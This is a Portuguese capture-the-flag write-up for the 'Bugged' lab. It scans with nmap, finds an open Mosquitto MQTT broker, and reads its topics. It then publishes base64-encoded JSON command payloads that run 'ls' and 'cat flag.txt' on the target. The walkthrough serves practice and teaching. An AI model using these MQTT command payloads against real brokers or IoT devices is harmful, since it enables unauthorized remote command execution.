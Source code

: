 # _**Bugged CTF**_
![](bug.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap --open -A [ip_address]
> ```
![](scan_nmap.jpg)

Temos um serviço: <mark>1883/tcp open mosquitto/mark>  
Pesquisando sobre o serviço, temos as seguintes informações  
_A porta 1883 em um dispositivo indica que o broker Mosquitto MQTT está em execução e acessível_  
_MQTT (Message Queuing Telemetry Transport) é um protocolo de mensagens leve, frequentemente usado em aplicações de IoT (Internet das Coisas)_  
_A porta 1883 aberta significa que o broker está pronto para aceitar conexões MQTT não criptografadas_  

Vamos executar o comando abaixo
> ```bash
> sudo apt install mosquitto-clients
> mosquitto_sub -h [ip_address] -p 1883 -t "#" -v
> ```
![](mosquitto_return.jpg)

Temos uma string em _base64_  
Traduzindo com ```echo```, temos o seguinte  

![](echo_return.jpg)

Na saída acima podemos ver nosso ID de assinante, nossos comandos registrados, o _pub_topic_ e o _sub_topic_  
Precisaremos configurar nosso assinante que ouvirá as respostas e as apresentará a nós em base64 para que possamos decodificá-las  
Em seguida, executaremos comandos para fazer solicitações ao nosso assinante explorando nosso publicador  
> ```bash
> mosquitto_sub -t U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub -h [ip_address]
> mosquitto_pub -t XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub -h [ip_address] -m [base64_message]
> ```

Enviando uma mensagem teste, temos a seguinte resposta  

![](test.jpg)

Conhecendo o formato aceito, vamos tentar o seguinte, codificando para base64  
```{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","cmd":"CMD","arg": "ls"}```  

![](flag.jpg)

Vamos alterar novamente para agora, obtermos a flag!  
```{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","cmd":"CMD","arg": "cat flag.txt"}```  
